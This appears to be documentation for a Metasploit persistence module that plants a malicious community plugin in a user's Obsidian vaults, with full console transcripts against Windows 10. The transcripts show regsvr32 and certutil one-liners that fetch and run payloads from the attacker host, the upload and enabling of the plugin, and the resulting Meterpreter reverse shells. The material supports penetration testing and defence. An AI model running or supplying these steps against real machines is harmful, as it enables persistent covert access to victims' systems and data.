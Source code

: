 ## Vulnerable Application

This module searches for Obsidian vaults for a user, and uploads a malicious
community plugin to the vault. The vaults must be opened with community
plugins enabled (NOT restricted mode), but the plugin will be enabled
automatically.

Tested against Obsidian 1.7.7 on Kali, Ubuntu 22.04, and 1.8.4 on Windows 10.

### Debugging

To open the console (similar to chrome), use `ctr+shift+i`.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a user shell on the target
4. Do: `use multi/persistence/obsidian_plugin`
5. Do: Select a shell which will work on your target OS
6. Do: `run`
7. You should get a shell when the target user opens the vault without restricted mode.

## Options

### NAME

Name of the plugin. Defaults to being randomly generated.

### USER

The user to target. Defaults the user the shell was obtained under.

### CONFIG

Config file location on target. Defaults to empty which will search the default locations.

## Scenarios

### Obsidian 1.8.4 on Windows 10

Get a user shell.

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set target 3
target => 3
resource (/root/.msf4/msfconsole.rc)> set srvport 8282
srvport => 8282
resource (/root/.msf4/msfconsole.rc)> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4646
lport => 4646
resource (/root/.msf4/msfconsole.rc)> set URIPATH w
URIPATH => w
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4646 
[*] Using URL: http://111.111.1.111:8282/w
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://111.111.1.111:8282/w.sct scrobj.dll
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.222.2.22     web_delivery - Handling .sct Request
[*] 222.222.2.22     web_delivery - Powershell command length: 3696
[*] 222.222.2.22     web_delivery - Delivering Payload (3696 bytes)
[*] Sending stage (203846 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4646 -> 222.222.2.22:50125) at 2025-02-17 09:00:05 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/multi/persistence/obsidian_plugin 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(multi/persistence/obsidian_plugin) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(C:\Users\windows) > getuid
Server username: WIN10PROLICENSE\windows
(Meterpreter 1)(C:\Users\windows) > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
(Meterpreter 1)(C:\Users\windows) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/persistence/obsidian_plugin) > set payload payload/cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(multi/persistence/obsidian_plugin) > exploit
[*] Command to run on remote host: certutil -urlcache -f http://111.111.1.111:8080/xCXtwaKhxivsa8DBsy06mQ %TEMP%\MvboVJyBQSJ.exe & start /B %TEMP%\MvboVJyBQSJ.exe
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(multi/persistence/obsidian_plugin) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /xCXtwaKhxivsa8DBsy06mQ
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Using plugin name: kuCPva
[*] Target User: windows
[*] Found user obsidian file: C:\Users\windows\AppData\Roaming\obsidian\obsidian.json
[+] Found open vault 73fefafd47723a1b: C:\Users\windows\Desktop\this_is_my_vault
[*] Uploading plugin to vault C:\Users\windows\Desktop\this_is_my_vault
[*] Uploading: C:\Users\windows\Desktop\this_is_my_vault/.obsidian/plugins/kuCPva/main.js
[*] Uploading: C:\Users\windows\Desktop\this_is_my_vault/.obsidian/plugins/kuCPva/manifest.json
[*] Found 4 enabled community plugins (AHBk, CbJt, tjPCOxub9, UOQEhHOR)
[+] Config file saved in: /root/.msf4/loot/20250217091115_default_222.222.2.22_obsidian.communi_029034.txt
[*] adding kuCPva to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/WIN10PROLICENSE_20250217.1116/WIN10PROLICENSE_20250217.1116.rc
[*] Client 222.222.2.22 requested /xCXtwaKhxivsa8DBsy06mQ
[*] Sending payload to 222.222.2.22 (Microsoft-CryptoAPI/10.0)
[*] Client 222.222.2.22 requested /xCXtwaKhxivsa8DBsy06mQ
[*] Sending payload to 222.222.2.22 (CertUtil URL Agent)
[*] Sending stage (203846 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:50145) at 2025-02-17 09:11:41 -0500
```
